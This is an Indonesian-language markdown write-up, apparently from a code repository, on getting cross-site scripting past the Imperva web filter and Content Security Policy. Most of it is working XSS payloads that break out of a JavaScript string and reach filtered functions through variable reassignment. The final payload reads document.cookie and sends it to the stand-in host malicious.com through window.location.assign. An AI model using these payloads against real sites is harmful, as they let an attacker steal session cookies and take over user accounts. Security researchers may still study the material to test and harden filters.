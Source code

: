 # XSS BYPASS IMPERVA dan CSP(Content Security Policy)  - 25 Januari 2022
# Imperva memfilter beberapa hal
## 1. Tag HTML yang malicious 
    * <script>
    * <img src>
    * javascript::
## 2. Built in function dari javascript
```javascript
console.log("test")
alert("test")
prompt()
window.open("http://malicious.com")
```


## Bypass ini bisa dilakukan jika kita sudah bisa mengontrol variabel pada javascript
* Example Vulnerable Code: 
    ![Alt text](./1.png "Vulnerable Code")

### Disini kita bisa memanggil function yang difilter dengan cara menyimpan objek dari function ke variable dahulu
Example Payload :
```javascript
');let f=123;f=2;f=console;f.log("XSS CONSOLE HERE");//
```

```javascript
');let f=123;f=2;f=alert;f("XSS ALERT HERE");//
```


### maka payload yang diterima server menjadi :
![Alt text](./2.png "Final Payload")

# Bypass CSP (Content Security Policy)
### kita bisa memanfaatkan function javascript :
```javascript
window.open("http://malicious.com")
window.location.assign("http://malicious.com")
window.location.replace("http://malicious.com")
```

### Apabila digabungkan dengan bypass xss sebelumnya maka final payload menjadi :
```javascript
')let x=22;x=document;x=x.cookie;let f=123;f=2;f=window;f=f.location;f.assign("http://malicious.com/"+x);//
```
